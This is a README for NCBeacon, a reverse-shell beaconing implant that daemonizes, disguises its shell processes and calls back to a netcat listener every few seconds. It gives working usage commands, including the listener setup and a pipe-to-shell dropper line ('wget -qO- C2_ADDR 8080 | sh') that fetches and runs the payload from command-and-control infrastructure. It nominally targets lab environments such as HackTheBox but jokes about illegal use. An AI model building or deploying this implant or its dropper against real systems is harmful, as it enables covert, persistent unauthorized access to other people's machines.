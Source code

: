 NCBeacon
--------
A small beaconing implant meant to be caught with netcat.  This was written
after watching someone hack [hackthebox](hackthebox.eu) boxes, lose his shell a
few times, and have to re-exploit to get it back.  All it does is call back
every few seconds.

Features
- Calls back with `/bin/sh` hooked up to the TCP connection every 5 seconds
- [Daemonizes](https://man.openbsd.org/daemon) itself
- Dissociates the shells it spawns from the parent process
- Spawned shells have a configurable name (i.e. `argv[0]`)

For legal use only, though you'd probably be doing law enforcement a favor if
you used this for illegal purposes.

Quickstart
----------
1. Build it (replacing the `CALLBACK_ADDRESS` with the correct address)
```sh
cc -O2 -DCBADDR=CALLBACK_ADDRESS -o ncbeacon ncbeacon.c
```
2. Put it on target
```sh
# This one's up to you
```
3. Set up netcat to catch it
```sh
rlwrap nc -nvlp 4444
```
4. Start it, on target
```sh
./ncbeacon
```

Configuration
-------------
There are a few compile-time settings controlled by macros (i.e. -DNAME=VALUE)

Macro    | Required | Default | Description
---------|----------|---------|------------
`CBADDR` | **Yes**  | _None_  | Callback Address
`CBPORT` |  No      | `4444`  | Callback Port
`CBWAIT` |  No      | `5`     | Time between callbacks, in seconds
`SHNAME` |  No      | `knetd` | Name (`argv[0]`) of spawned shells
`DEBUG`  |  No      | _Unset_ | If set, logs errors and prevents backgrounding

Excessive Process Spawning
--------------------------
One of the downsides of spawnining a new process to call back ever few seconds
is that if something accepts the connection and never closes it, the process
doesn't die.  I'm looking at you OpenBSD
[`nc(1)`](https://man.openbsd.org/nc.1).  This can be solved by using a tool
to catch the connection which closes the listening socket after accepting a
connection, such as ncat.

The included program [nccatch](./nccatch.c) will also happily catch a
connection from ncbeacon.  Build it with
```sh
cc -O2 -o nccatch nccatch.c
```

Give it either a port or an address and port, like `./nccatch 4444` or
`./nccatch 127.0.0.1 4444`.

OPSEC Considerations
--------------------
This is bad.

- No encryption
- No authentication
- Very frequent connection attempts
- Very regular connection attempts
- Connects up a shell to stdio (have a look at `/proc/$$/fd`)

In other words, this is pretty much only suitable for HTB and similar safe
environments.  Please don't use this for actual engagements unless you have a
very good reason to.

Dropper
-------
The included [bin2dropper.sh](./bin2dropper.sh) will generate a shell script
which drops and runs a payload.  It takes a payload file and writes to stdout a
script which will drop the payload, run it, and remove it.  Prerequisites on
target are openssl and gunzip.

Example:
```sh
./bin2sh -d sneaky ./ncbeacon | nc -Nnvl 8080 # On C2 infrastructure
cd /tmp; wget -qO- C2_ADDR 8080 | sh          # On target
```
This will use wget to grab a script which drops `./ncbeacon` to `/tmp/sneaky`
and runs it as `sneaky`.

You can now mark off "in-memory dropper execution" on your buzzword bingo card.
